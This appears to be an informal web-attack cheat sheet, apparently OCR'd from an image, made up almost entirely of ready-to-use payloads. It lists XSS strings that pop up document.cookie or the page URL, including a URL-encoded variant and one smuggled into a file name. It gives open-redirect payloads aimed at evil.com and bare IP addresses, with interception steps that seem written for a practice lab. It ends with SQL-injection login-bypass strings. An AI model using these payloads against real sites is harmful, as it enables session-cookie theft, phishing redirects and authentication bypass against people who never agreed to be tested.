 # payload-list

######################
XXS PAYLOADS
######################
<script>alert(document.URL)</script>
"><<script>alert(document.cookie)</script>
<script>alert(document.URL)</script>yes@gmail.com
"><h1/onmouseover='\u0061lert(document.URL)'>yesspider
"><img src=x onerror=alert(document.cookie)>
"><h1/onmouseover='\u0061lert(document.URL)'>%00
Payload  = <script>alert(document.cookie)</script>

URL encode =  %20%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3c%2f%73%63%72%69%70%74%3e
In file name = “xxs.txt<img src=x onerror=alert(document.cookie)>”

DOM XSS:===
Payload  =  ?name=<img src=x onerror=alert=(document.cookie) >
PUT this payload after the URL and see that it gives you a popup.



################################
OPEN REDIRECT PYALOAD
################################


change the “open_redirect_1.php” to payload
payload = //evil.com

X-Forwarded-Host: evil.com//

Intercept the request and  put  payload after “&url=open_redirect_4_dashboard.php” 
 payload = ///evil.com


Intercept the request and  put  payload after “&url=open_redirect_6_dashboard.php” 
 payload = @evil.com

Intercept the request and  put  payload after “&url=open_redirect_7_dashboard.php” 
payload = &url=open_redirect_7_dashboard.php@8.8.8.8

Intercept the request and  put  payload after “&url=” 
 payload = 66.96.146.129


####################################
SQL INJECION
####################################


'OR''='

' OR '*'='*

")or("1")=("1

'=0--+
